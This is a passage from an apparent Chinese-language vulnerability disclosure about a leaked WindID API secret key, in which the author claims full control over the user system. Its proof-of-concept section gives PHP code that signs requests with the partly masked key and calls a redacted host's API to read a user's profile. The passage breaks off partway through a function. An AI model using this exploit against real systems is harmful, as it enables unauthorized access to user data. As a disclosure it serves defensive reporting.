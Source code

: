 拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

## 漏洞证明

![](img/16220929812927fb46cb3f7f5d75bd5ba3c50dee.jpg)

拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

在官网测试了一下，拿到 key 后测试一下读取一个用户的资料：

```php
<?php

$secretkey = '308c6c43a*****279dd61dd80e8d59bd';

$c = 'user';

$a = 'get';

$data = array('uid'=>'658925');

$time = time();

$key = appKey('1', time(), $secretkey, array('userid'=>658925), $data);

echo post('http://**.**.**.**/windid/index.php?m=api&c='.$c.'&a='.$a.'&windidkey='.$key.'&time='.$time .'&clientid=1&userid=658925',$data);

function post($uri,$data) {

    $ch = curl_init ();

    curl_setopt ( $ch, CURLOPT_URL, $uri );

    curl_setopt ( $ch, CURLOPT_POST, 1 );

    curl_setopt ( $ch, CURLOPT_HEADER, 0 );

    curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, 1 );

    curl_setopt ( $ch, CURLOPT_POSTFIELDS, $data );

    $return = curl_exec ( $ch );

    curl_close ( $ch );

    return $return;

}

function appKey($apiId, $time, $secretkey, $get, $post) {

```